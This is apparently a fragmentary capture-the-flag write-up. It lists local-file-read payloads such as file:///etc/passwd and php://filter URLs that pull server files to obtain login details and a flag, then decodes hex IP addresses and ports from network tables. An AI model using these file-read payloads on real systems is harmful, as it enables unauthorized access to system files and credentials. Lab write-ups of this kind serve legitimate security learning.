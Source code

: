 file:///etc/passwd
File
php://filter/resource=/etc/passwd

?url=file:/etc/passwd

?url=file:/var/www/html/management/2fa.php

?url=file:/var/www/html/management/index.php
you get login details.

will give you the second flag.

0A = LISTEN
0100007F → 127.0.0.1

little-endian hex

01 00 00 7F > 7F 00 00 01

7F (hex) = 127 (decimal)
00 (hex) = 0 (decimal)
00 (hex) = 0 (decimal)
01 (hex) = 1 (decimal)

127.0.0.1

2710 > 10000
0035 > 53
